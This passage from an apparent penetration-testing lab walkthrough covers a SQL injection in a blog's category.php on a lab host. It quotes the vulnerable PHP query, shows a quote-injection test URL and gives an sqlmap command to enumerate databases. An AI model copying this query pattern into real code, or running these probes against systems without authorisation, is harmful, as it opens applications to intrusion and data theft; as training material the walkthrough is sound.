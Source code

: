 Okay, standard XAMPP database directory. Now, let's try to look for some exploits. I found one that proved useful from Exploitdb

<figure><img src="../../../.gitbook/assets/image (113) (1).png" alt=""><figcaption></figcaption></figure>

So basically the vulnerable file is `/category.php` which has the vulnerable code:

```php
$id=$_REQUEST['id'];
$query="SELECT * from blog_categories where id='".$id."'";
```

The `id` parameter is inserted directly into the SQL query without any sanitization causing an SQLi vulnerability. We can test this by entering a single quote in the parameter:

```
http://172.16.1.12/blog/category.php?id=5'
```

<figure><img src="../../../.gitbook/assets/image (115) (1).png" alt=""><figcaption></figcaption></figure>

And there it is, returning an SQL error. From here, we can use `sqlmap` to enumerate available databases

```
sqlmap 'http://172.16.1.12/blog/category.php?id=5' --dbs --batch
```
